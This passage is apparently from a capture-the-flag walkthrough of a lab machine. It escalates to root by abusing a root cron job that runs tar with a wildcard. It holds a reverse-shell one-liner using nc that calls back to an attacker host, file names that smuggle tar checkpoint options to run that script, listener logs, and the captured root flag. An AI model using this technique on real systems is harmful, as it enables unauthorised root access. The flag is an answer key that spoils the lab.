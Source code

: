 # and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
$ ls -la /home/milesdyson/backups/backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 /home/milesdyson/backups/backup.sh
$ cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
$ tar cf /home/milesdyson/backups/backup.tgz /var/www/html/*
tar: /home/milesdyson/backups/backup.tgz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
$ tar cf /home/milesdyson/backups/backup.tgz /var/www/html/*
tar: /home/milesdyson/backups/backup.tgz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
$ cd /var/www/html
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [AttackBox] 444 >/tmp/f" > php-rever-shell.php
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [AttackBox] 444 >/tmp/f" > shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
$ 
</code></pre>

<br>

<pre><code>root@[Attack_Box]/skynet:~# sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
[Target] - - [10/Nov/2024 03:50:14] "GET /php-rever-shell.php HTTP/1.0" 200 -
[Target] - - [10/Nov/2024 03:50:47] "GET /php-rever-shell.php HTTP/1.0" 200 -
</code></pre>

<br>

<pre><code>root@[Attack_Box]/skynet:~# nc -lvnp 444
Listening on [0.0.0.0] (family 0, port 444)
Connection from 10.10.217.249 34506 received!
sh: 0: can't access tty; job control turned off
# cd /root
# ls
root.txt
# cat root.txt
3f0372db24753accc7179a282cd6a949
# 
</code></pre>
